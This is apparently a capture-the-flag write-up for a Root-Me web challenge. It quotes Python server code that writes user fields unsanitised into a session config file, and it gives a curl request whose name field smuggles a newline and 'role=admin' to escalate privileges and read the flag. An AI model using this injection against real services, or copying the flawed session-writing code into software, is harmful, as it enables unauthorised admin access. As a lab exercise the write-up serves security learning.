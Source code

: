 # New New Always New (day15)
<p align="justify">This challenge was a Web challenge in which we had to get admin access to read the flag. The source code(python server) was available to downlaod on the challenge site and is attached to  this repo.</p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Looking at the source code it appeared that the flag was exposed in the admin section (available under app.py in this repo). Besides, the session and access were managed thanks to uuid generated when user register on the server. Below the function that handles the user registration, generating a config file based on a uuid and writing user information into the config file : </p>

````python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
````
<p align="justify">Below is the route used through POST request to register a user on the server. It appeared that the input provided wasn't cleared or processed before being sent through server , meaning it could possibly be exploited for injection. </p>

````python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
````
<p align="justify">Hence what I've tried was to add a line with 'role=admin' in my file by giving the username Axel2\nrole=admin. Considering that the content of the config file wasn't checked (number of line for instance), I was expecting server to use the last line to set my role. As a result, after the injection the overwritten config file was expected to be something like : </p>

````text
emain=xxxxx
role=user
name=axel
role=admin
````

````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="justify"> After I registered my user , I logged In and retreived my access token generated. To get sure that my role was 'admin' I use the 'Dashboard', designed to display informations about user session. The exploited did worked well because I was granted admin role : </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">Finaly, I accessed the admin section and got the flag : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{I_Thought_Th1s_VUlnerability_W4s_N0t_Imp0rtant}_, thanks _Elweth_ for this challenge !

 
